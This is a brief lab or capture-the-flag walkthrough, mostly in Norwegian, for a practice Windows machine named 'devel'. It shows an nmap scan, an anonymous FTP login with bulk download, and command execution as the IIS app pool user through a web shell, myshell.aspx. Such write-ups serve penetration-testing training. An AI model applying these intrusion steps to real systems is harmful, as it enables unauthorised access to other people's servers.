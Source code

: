 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn ftp med anonymous. masse filer. last ned alt med `mget * .` og login med -i som fjerner prompts

http kjører iis7

[http://10.10.10.5/myshell.aspx](http://10.10.10.5/myshell.aspx)

kan her kjøre kommandoer. /c net user

User accounts for \

Administrator            babis                    Guest

The command completed with one or more errors.

/c whoami

iis apppool\web

